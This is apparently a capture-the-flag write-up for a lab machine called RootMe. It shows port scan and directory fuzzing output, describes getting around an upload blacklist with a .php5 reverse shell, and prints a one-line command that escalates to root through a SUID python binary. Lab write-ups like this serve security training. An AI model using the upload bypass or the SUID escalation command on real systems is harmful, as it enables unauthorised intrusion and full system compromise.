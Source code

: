 # RootMe

**Hostname:**\
`rootme`

**OS:**\
`Ubuntu Linux`

**Users:**\
`rootme`\
`test`

===============================================================

## Port Scan:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HackIT - Home
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

===============================================================

## Recon:

### Web Recon:

**Server:**\
Apache 2.4.29

### Fuzzing

```
 :: Method           : GET
 :: URL              : http://10.10.21.235/FUZZ/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 404
________________________________________________

js                      [Status: 200, Size: 958, Words: 65, Lines: 17, Duration: 56ms]
css                     [Status: 200, Size: 1125, Words: 70, Lines: 18]
uploads                 [Status: 200, Size: 743, Words: 52, Lines: 16]
panel                   [Status: 200, Size: 732, Words: 175, Lines: 23]
icons                   [Status: 403, Size: 277, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10]
```
- Found the /panel directory which hosts the upload form

===============================================================

## Foothold / Privilege Escalation:

### Initial Foothold

I got initial access through a misconfigured upload panel. The backend blacklisted malicious extensions like php. But I bypassed this by using .php5 extension for the shell since that extension was not on the blacklist.

And since the /uploads/ directory was accessible I could execute the uploaded shell and get a reverse connection to my listener.

---

### Privilege Escalation:

As the www-data user I inspected the SUID bit set binaries and found that python had a SUID sticky bit set.

On gtfobins.com there is a technique of escalating privileges to root if the SUID bit is set on the python binary:

```
./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
